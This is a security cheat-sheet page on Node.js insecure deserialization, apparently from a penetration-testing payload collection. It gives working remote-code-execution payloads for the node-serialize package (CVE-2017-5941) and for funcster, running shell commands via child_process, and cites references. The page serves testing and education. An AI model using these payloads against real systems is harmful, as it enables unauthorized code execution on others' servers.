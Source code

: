 +++
title = "Node Insecure Deserialization"
description = "Node insecure deserialization attacks - everything you need to know"
date = "2023-03-27"
include_toc = 'true'
+++

# Node Deserialization

## Summary

* [Exploit](#exploit)
    * [node-serialize](#node-serialize)
    * [funcster](#funcster)
* [References](#references)

## Exploit

* In Node source code, look for:
    * `node-serialize`
    * `serialize-to-js`
    * `funcster`

### node-serialize

> An issue was discovered in the node-serialize package 0.0.4 for Node.js. Untrusted data passed into the `unserialize()` function can be exploited to achieve arbitrary code execution by passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).
1. Generate a serialized payload
    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```
2. Add bracket `()` to force the execution
    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```
3. Send the payload

### funcster

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```


## References

* [Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941) - Ajin Abraham](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
* [NodeJS Deserialization - 8 January 2020- gonczor](https://blacksheephacks.pl/nodejs-deserialization/)
* [CVE-2017-5941 - NATIONAL VULNERABILITY DATABASE - 02/09/2017](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)